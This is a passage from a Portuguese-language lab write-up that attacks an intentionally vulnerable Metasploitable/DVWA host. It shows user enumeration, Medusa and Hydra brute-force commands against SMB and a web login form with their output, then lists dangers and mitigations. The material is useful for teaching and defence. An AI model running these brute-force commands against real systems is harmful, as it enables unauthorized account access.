[+] Got domain/workgroup name: WORKGROUP                                     
                                                                             
                                                                             
 ==================================( Session Check on 192.168.56.102 )==================================                                                  
                                                                             
                                                                             
[+] Server 192.168.56.102 allows sessions using username '', password ''     
                                                                             
                                                                             
 ===============================( Getting domain SID for 192.168.56.102 )===============================                                                  
                                                                             
Domain Name: WORKGROUP                                                       
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup         
                                                                             
                                                                             
 ======================================( Users on 192.168.56.102 )======================================                                                  
                                                                             
index: 0x1 RID: 0x3f2 acb: 0x00000011 Account: games    Name: games     Desc: (null)
index: 0x2 RID: 0x1f5 acb: 0x00000011 Account: nobody   Name: nobody    Desc: (null)
index: 0x3 RID: 0x4ba acb: 0x00000011 Account: bind     Name: (null)    Desc: (null)
index: 0x4 RID: 0x402 acb: 0x00000011 Account: proxy    Name: proxy     Desc: (null)
index: 0x5 RID: 0x4b4 acb: 0x00000011 Account: syslog   Name: (null)    Desc: (null)
index: 0x6 RID: 0xbba acb: 0x00000010 Account: user     Name: just a user,111,,      Desc: (null)
index: 0x7 RID: 0x42a acb: 0x00000011 Account: www-data Name: www-data  Desc: (null)
index: 0x8 RID: 0x3e8 acb: 0x00000011 Account: root     Name: root      Desc: (null)
index: 0x9 RID: 0x3fa acb: 0x00000011 Account: news     Name: news      Desc: (null)
index: 0xa RID: 0x4c0 acb: 0x00000011 Account: postgres Name: PostgreSQL administrator,,,    Desc: (null)
index: 0xb RID: 0x3ec acb: 0x00000011 Account: bin      Name: bin       Desc: (null)
index: 0xc RID: 0x3f8 acb: 0x00000011 Account: mail     Name: mail      Desc: (null)
index: 0xd RID: 0x4c6 acb: 0x00000011 Account: distccd  Name: (null)    Desc: (null)
index: 0xe RID: 0x4ca acb: 0x00000011 Account: proftpd  Name: (null)    Desc: (null)
index: 0xf RID: 0x4b2 acb: 0x00000011 Account: dhcp     Name: (null)    Desc: (null)
index: 0x10 RID: 0x3ea acb: 0x00000011 Account: daemon  Name: daemon    Desc: (null)
index: 0x11 RID: 0x4b8 acb: 0x00000011 Account: sshd    Name: (null)    Desc: (null)
index: 0x12 RID: 0x3f4 acb: 0x00000011 Account: man     Name: man       Desc: (null)
index: 0x13 RID: 0x3f6 acb: 0x00000011 Account: lp      Name: lp        Desc: (null)
index: 0x14 RID: 0x4c2 acb: 0x00000011 Account: mysql   Name: MySQL Server,,,Desc: (null)
index: 0x15 RID: 0x43a acb: 0x00000011 Account: gnats   Name: Gnats Bug-Reporting System (admin)     Desc: (null)
index: 0x16 RID: 0x4b0 acb: 0x00000011 Account: libuuid Name: (null)    Desc: (null)
index: 0x17 RID: 0x42c acb: 0x00000011 Account: backup  Name: backup    Desc: (null)
index: 0x18 RID: 0xbb8 acb: 0x00000010 Account: msfadmin        Name: msfadmin,,,    Desc: (null)
index: 0x19 RID: 0x4c8 acb: 0x00000011 Account: telnetd Name: (null)    Desc: (null)
index: 0x1a RID: 0x3ee acb: 0x00000011 Account: sys     Name: sys       Desc: (null)
index: 0x1b RID: 0x4b6 acb: 0x00000011 Account: klog    Name: (null)    Desc: (null)
index: 0x1c RID: 0x4bc acb: 0x00000011 Account: postfix Name: (null)    Desc: (null)
index: 0x1d RID: 0xbbc acb: 0x00000011 Account: service Name: ,,,       Desc: (null)
index: 0x1e RID: 0x434 acb: 0x00000011 Account: list    Name: Mailing List Manager   Desc: (null)
index: 0x1f RID: 0x436 acb: 0x00000011 Account: irc     Name: ircd      Desc: (null)
index: 0x20 RID: 0x4be acb: 0x00000011 Account: ftp     Name: (null)    Desc: (null)
index: 0x21 RID: 0x4c4 acb: 0x00000011 Account: tomcat55        Name: (null)Desc: (null)
index: 0x22 RID: 0x3f0 acb: 0x00000011 Account: sync    Name: sync      Desc: (null)
index: 0x23 RID: 0x3fc acb: 0x00000011 Account: uucp    Name: uucp      Desc: (null)

user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
enum4linux complete on Mon May 11 14:22:52 2026
```

Atualizando lista de usuários: 

```bash
┌──(kali㉿kali)-[~]
└─$ echo -e "msfadmin\nadministrator\nguest\nkrbtgt\ndomain admins\nroot\nbin\nnone" > users.txt
                                                                             
┌──(kali㉿kali)-[~]
└─$ cat users.txt                                                  
msfadmin
administrator
guest
krbtgt
domain admins
root
bin
none
``` 

## Ataque híbrido SMB

O módulo para SMB no Medusa é o `smbnt`. Diferente do FTP, o SMB pode ser um pouco mais sensível a múltiplas conexões simultâneas, então vamos ajustar o número de tarefas (`-t`).

**O Comando:**

* **`-M smbnt`**: Módulo que lida com a autenticação de rede do Windows/Samba.
* **`-t 4`**: Reduzimos para 4 threads para evitar que o serviço de rede do alvo "engasgue" ou pare de responder temporariamente.

---

```bash
┌──(kali㉿kali)-[~]
└─$ medusa -h 192.168.56.102 -U users.txt -P pass.txt -M smbnt -t 4
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (1 of 8, 0 complete) Password: password (1 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (1 of 8, 1 complete) Password: 12345 (2 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (1 of 8, 1 complete) Password: qwerty (3 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (1 of 8, 1 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 14:28:59 ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (2 of 8, 2 complete) Password: 12345 (1 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (2 of 8, 3 complete) Password: password (2 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (2 of 8, 3 complete) Password: qwerty (3 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: guest (3 of 8, 3 complete) Password: 12345 (1 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (2 of 8, 3 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: guest (3 of 8, 4 complete) Password: password (2 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: guest (3 of 8, 4 complete) Password: qwerty (3 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: guest (3 of 8, 4 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: krbtgt (4 of 8, 4 complete) Password: 12345 (1 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: krbtgt (4 of 8, 5 complete) Password: qwerty (2 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: krbtgt (4 of 8, 5 complete) Password: msfadmin (3 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: domain admins (5 of 8, 5 complete) Password: 12345 (1 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: krbtgt (4 of 8, 5 complete) Password: password (4 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: domain admins (5 of 8, 6 complete) Password: msfadmin (2 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: domain admins (5 of 8, 6 complete) Password: password (3 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: domain admins (5 of 8, 6 complete) Password: qwerty (4 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (6 of 8, 6 complete) Password: 12345 (1 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (6 of 8, 7 complete) Password: qwerty (2 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (6 of 8, 7 complete) Password: password (3 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (6 of 8, 7 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (7 of 8, 7 complete) Password: 12345 (1 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (7 of 8, 8 complete) Password: password (2 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (7 of 8, 8 complete) Password: qwerty (3 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (7 of 8, 8 complete) Password: msfadmin (4 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: none (8 of 8, 8 complete) Password: 12345 (1 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: none (8 of 8, 9 complete) Password: password (2 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: none (8 of 8, 9 complete) Password: qwerty (3 of 4 complete)
2026-05-11 14:28:59 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: none (8 of 8, 9 complete) Password: msfadmin (4 of 4 complete)
```

Linha de sucesso do teste de invasão:

```bash
2026-05-11 14:28:59 ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

## Validação do Acesso (Exploração)

**Para listar os compartilhamentos (Shares):**

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L //192.168.56.102 -U msfadmin
Password for [WORKGROUP\msfadmin]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        msfadmin        Disk      Home Directories
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            METASPLOITABLE
```

Dentro do shell do `smbclient`, você pode usar comandos como `ls`, `get` (para baixar arquivos) ou `put` (para subir arquivos). Utilizei o comando `ls` para listar os arquivos e diretórios disponíveis. Vamos conectar ao compartilhamento `tmp`:

---
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.102/tmp -U msfadmin
Password for [WORKGROUP\msfadmin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 11 14:32:59 2026
  ..                                 DR        0  Sun May 20 14:36:12 2012
  .ICE-unix                          DH        0  Mon May 11 13:09:46 2026
  .X11-unix                          DH        0  Mon May 11 13:09:50 2026
  .X0-lock                           HR       11  Mon May 11 13:09:50 2026
  4605.jsvc_up                        R        0  Mon May 11 13:09:54 2026

                7282168 blocks of size 1024. 5437384 blocks available
smb: \> 
```

## Teste de invasão SMB completado

O resultado do Medusa destacou algo crítico: **`SUCCESS (ADMIN$ - Access Allowed)`**.

Em um ambiente Windows ou Samba, o acesso ao compartilhamento oculto `ADMIN$` (que aponta geralmente para o diretório raiz do sistema ou diretórios de controle) é o "santo graal" para um atacante, pois indica privilégios administrativos que permitem controle quase total sobre a máquina.

---

### 🚨 Perigos da Brecha de Segurança no SMB

* **Acesso a Dados Privados:** O acesso ao compartilhamento `msfadmin` (Home Directory) permite que o invasor leia arquivos pessoais, chaves SSH, históricos de comandos e documentos sensíveis do usuário.
* **Controle Administrativo (`ADMIN$`):** O acesso a este compartilhamento oculto permite que um atacante execute comandos remotamente, instale malwares ou modifique configurações vitais do sistema operacional.
* **Movimentação Lateral e Ransomware:** O SMB é o principal vetor de propagação de worms e ransomwares (como o *WannaCry*). Uma vez que um nó da rede é comprometido via SMB, o atacante pode usar as mesmas credenciais para tentar infectar outras máquinas na mesma rede.
* **Vazamento de Informações via IPC$:** O compartilhamento `IPC$` permite que usuários não autenticados (ou com senhas fracas) listem nomes de usuários, grupos e políticas de segurança, facilitando a preparação de ataques mais direcionados.
* **Exposição de Arquivos Temporários (`/tmp`):** Visto com o comando `ls`, o acesso à pasta `tmp` pode revelar arquivos de lock, sockets de processos e dados temporários que podem ser usados para escalonamento de privilégio local.

---

### 🛡️ Medidas de Mitigação e Correção

* **Desativar o SMBv1:** A versão do Samba no Metasploitable é antiga e utiliza o protocolo SMBv1, que é inerentemente inseguro. Deve-se migrar para **SMBv2 ou SMBv3**, que possuem melhorias significativas de segurança.
* **Implementar SMB Signing (Assinatura Digital):** Configurar o servidor para exigir que todos os pacotes SMB sejam assinados digitalmente. Isso impede ataques de *Man-in-the-Middle* e *SMB Relay*.
* **Bloqueio de Compartilhamentos Administrativos:** Restringir o acesso aos compartilhamentos `ADMIN$` e `C$` apenas a contas de administração de rede específicas e através de conexões seguras (VPN/IPSec).
* **Políticas de Bloqueio de Conta:** Configurar o sistema para bloquear temporariamente o usuário após 3 ou 5 tentativas de login incorretas, o que inviabiliza ataques de força bruta realizados pelo Medusa.
* **Segmentação de Rede:** Colocar serviços de compartilhamento de arquivos em VLANs separadas e protegidas por firewalls que permitam o tráfego SMB (portas 139 e 445) apenas de origens confiáveis.
* **Uso de Honeypots:** Criar compartilhamentos falsos para detectar tentativas de enumeração e ataques de força bruta em estágio inicial.

---


# Formulário Web

Adicionando o usuário `admin` ao arquivo `users.txt`

```bash
┌──(kali㉿kali)-[~]
└─$ echo -e "admin" >> users.txt 
```

Nesta etapa, o objetivo foi comprometer o painel administrativo da aplicação **Damn Vulnerable Web Application (DVWA)**.

#### ⚠️ Nota Técnica: Limitação do Medusa vs. Hydra

Durante os testes, identificou-se que o **Medusa (v2.3)**, embora eficiente para serviços como FTP e SMB, possui limitações no módulo `http` para lidar com formulários web que não utilizam autenticação nativa do servidor (como Basic Auth). O Medusa não reconheceu os métodos `FORM` e `DENY`, gerando falsos positivos.

```bash
┌──(kali㉿kali)-[~]
└─$ medusa -M http -q
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

http.mod (2.1) fizzgig <fizzgig@foofus.net> :: Brute force module for HTTP

Available module options:
  USER-AGENT:? (User-Agent. Default: Mozilla/1.22 (compatible; MSIE 10.0; Windows 3.1))
  DIR:? (Target directory. Default "/")
  METHOD:? (Method (GET/POST/etc). Default: GET
  AUTH:? (Authentication Type (BASIC/DIGEST/NTLM). Default: automatic)
  DOMAIN:? [optional]
  CUSTOM-HEADER:?    Additional HTTP header.
                     More headers can be defined by using this option several times.

Usage example: "-M http -m USER-AGENT:"g3rg3 gerg" -m DIR:exchange/"
Usage example: "-M http -m CUSTOM-HEADER:"Cookie: SMCHALLENGE=YES"

Note: The default behavior of NTLM authentication is to use the server supplied
domain name. In order to target local accounts, and not domain, use the DOMAIN
option to reference the local system: "-m DOMAIN:127.0.0.1".
``` 

Falsos positivos:

```bash
┌──(kali㉿kali)-[~]
└─$ medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
-m DIR:/dvwa/login.php \
-m FORM:"username=^USER^&password=^PASS^&Login=Login" \
-m DENY:"Login failed" \
-t 4
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

WARNING: Invalid method: FORM.
WARNING: Invalid method: DENY.
WARNING: Invalid method: FORM.
WARNING: Invalid method: DENY.
WARNING: Invalid method: FORM.
WARNING: Invalid method: DENY.
WARNING: Invalid method: FORM.
WARNING: Invalid method: DENY.
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (1 of 9, 0 complete) Password: msfadmin (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: administrator (2 of 9, 1 complete) Password: 12345 (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: administrator Password: 12345 [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: guest (3 of 9, 2 complete) Password: 12345 (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: guest Password: 12345 [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: krbtgt (4 of 9, 3 complete) Password: 12345 (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: krbtgt Password: 12345 [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: domain admins (5 of 9, 4 complete) Password: 12345 (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: domain admins Password: 12345 [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (6 of 9, 5 complete) Password: 12345 (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: root Password: 12345 [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (1 of 9, 6 complete) Password: qwerty (2 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: msfadmin Password: qwerty [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (7 of 9, 7 complete) Password: 12345 (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: bin Password: 12345 [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (1 of 9, 8 complete) Password: password (3 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: msfadmin Password: password [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: bin (7 of 9, 9 complete) Password: password (2 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: bin Password: password [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: none (8 of 9, 10 complete) Password: 12345 (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: none Password: 12345 [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: none (8 of 9, 11 complete) Password: password (2 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: none Password: password [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (9 of 9, 12 complete) Password: 12345 (1 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: admin Password: 12345 [SUCCESS]
2026-05-11 17:52:13 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (9 of 9, 13 complete) Password: password (2 of 4 complete)
2026-05-11 17:52:13 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: admin Password: password [SUCCESS]
2026-05-11 17:52:14 ACCOUNT CHECK: [http] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (1 of 9, 14 complete) Password: 12345 (4 of 4 complete)
2026-05-11 17:52:14 ACCOUNT FOUND: [http] Host: 192.168.56.102 User: msfadmin Password: 12345 [SUCCESS]
```


A ferramenta foi substituída pelo **THC-Hydra**, que oferece suporte robusto para `http-form-post`.

**Comando utilizado:**

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -L users.txt -P pass.txt 192.168.56.102 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-11 18:03:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:9/p:4), ~3 tries per task
[DATA] attacking http-post-form://192.168.56.102:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed
[80][http-post-form] host: 192.168.56.102   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-11 18:03:07
```
Linha de sucesso do Hydra:

```text
[80][http-post-form] host: 192.168.56.102 login: admin password: password
1 of 1 target successfully completed, 1 valid password found

```

---

## 🚨 Perigos da Brecha de Segurança (Web Form)

* **Acesso Total à Aplicação:** O comprometimento da conta `admin` no DVWA permite ao atacante alterar configurações de segurança, visualizar dados de outros usuários e, em níveis de segurança mais baixos, executar comandos no sistema operacional (RCE) via módulos de Upload ou Command Injection.
* **Ausência de Rate Limiting:** A capacidade de realizar 36 tentativas em apenas 2 segundos (conforme o log do Hydra) demonstra que a aplicação não possui mecanismos para desacelerar ou bloquear requisições repetitivas vindas do mesmo IP.
* **Exposição de Credenciais em Texto Claro:** Por estar rodando em HTTP (porta 80), as credenciais trafegam sem criptografia. Um atacante na rede local (sniffing) poderia capturar o usuário e a senha sem precisar realizar o ataque de força bruta.
* **Enumeração de Usuários:** Formulários que retornam mensagens de erro genéricas como "Login failed" são melhores que os que dizem "Usuário inexistente", mas a falta de um CAPTCHA ainda permite que um atacante valide se contas comuns (como `admin`) estão ativas.

---

## 🛡️ Medidas de Mitigação e Correção

* **Implementação de Segundo Fator de Autenticação (MFA):** Mesmo que a senha seja descoberta por força bruta, o acesso seria impedido pela necessidade de um token temporário ou aprovação em dispositivo móvel.
* **Bloqueio de Conta (Account Lockout Policy):** Configurar a aplicação para travar a conta ou o IP de origem após um número reduzido de tentativas inválidas (ex: 5 tentativas).
* **Uso de CAPTCHA:** Adicionar um desafio visual ou comportamental (como o reCAPTCHA) para garantir que a tentativa de login está sendo feita por um humano e não por uma ferramenta automatizada como o Hydra.
* **Segurança na Resposta (Generic Errors):** Manter mensagens de erro genéricas e garantir que o tempo de resposta do servidor seja similar para logins existentes e inexistentes, evitando ataques de temporização (*timing attacks*).
* **Migração para HTTPS (TLS/SSL):** Criptografar todo o tráfego entre o cliente e o servidor para impedir a captura de credenciais via interceptação de rede.
* **WAF (Web Application Firewall):** Utilizar um firewall de aplicação configurado para detectar e bloquear padrões de ataque de força bruta conhecidos.

---

## 📈 Conclusão

Os testes demonstraram que a segurança de um ambiente não depende apenas da robustez do software, mas fundamentalmente da configuração de políticas de acesso. A transição entre ferramentas (**Medusa** para **Hydra**) durante o ataque Web reforça a necessidade de um analista de segurança possuir versatilidade técnica para adaptar-se às respostas do alvo.

---
